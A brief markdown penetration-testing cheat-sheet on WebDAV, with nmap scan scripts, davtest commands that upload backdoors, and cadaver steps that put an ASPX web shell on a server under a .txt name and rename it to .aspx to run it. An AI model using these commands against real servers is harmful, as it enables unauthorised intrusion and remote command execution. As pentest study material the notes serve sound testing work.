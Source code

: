 # WebDAV

## Scanning

### nmap

```bash
nmap <IP> --script=http-webdav-scan,http-iis-webdav-vuln
# Check for the HTTP Methods especially for PUT
```

### davtest

```bash
davtest --url http://<IP>
davtest -move -sendbd auto -url http://<IP>:8080/webdav/
```

### cadaver

```bash
cadaver <IP>
dav:/> put /usr/share/webshells/aspx/cmdasp.aspx awen.txt  # Example uploading shell
dav:/> mv awen.txt awen.aspx  # Change the file type of the uploaded file
# Navigate to the awen.aspx file in the browser
```
